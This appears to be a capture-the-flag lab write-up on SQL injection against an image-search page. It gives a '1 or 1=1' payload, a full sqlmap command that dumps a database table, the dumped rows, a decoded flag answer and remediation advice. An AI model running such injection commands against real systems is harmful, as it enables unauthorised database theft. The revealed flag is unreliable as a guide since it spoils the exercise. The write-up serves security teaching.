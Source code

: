 # SQL injection advanced
[http://10.203.72.119/index.php?page=searchimg](http://10.203.72.119/index.php?page=searchimg "image search") this page is also vunreable to ***sql injection***

## Method
If we insert ***1 or 1=1*** in the search text box we get back results of all the users in the database table.

We can then use ***sqlmap*** to get the database, tables and the columns.
With this command we will dump the ***list_images*** table from the ***Member_images*** database. 

``` bash
sqlmap -u 'http://10.203.72.119/index.php?page=searchimg&id=1&Submit=Submit#' -D Member_images -T list_images --dump
```
The results
```bash
Database: Member_images
Table: list_images
[6 entries]
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```
Then on the 5th row we see that we are given a flag, that we need to decode from ***md5***, then sha256. The flag after the process will be ***f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188***

## Solution 
1. Using prepared statements given that this site uses ***PHP***, prepared help the database distinguish between the ***code*** and ***user input***, by pre-compliling ***SQL*** statements to be then used as input. For ***PHP*** using ***PDO*** is one of the solutions.
1. Validating input, making use of ***regular expression*** to validate thee user input whether it matches the expected input, checking whether it contains special charcters, which would be incorrect if the input is to be a surname or name. This process can be called ***sanitization***.
1. ***Backend*** validation is very important.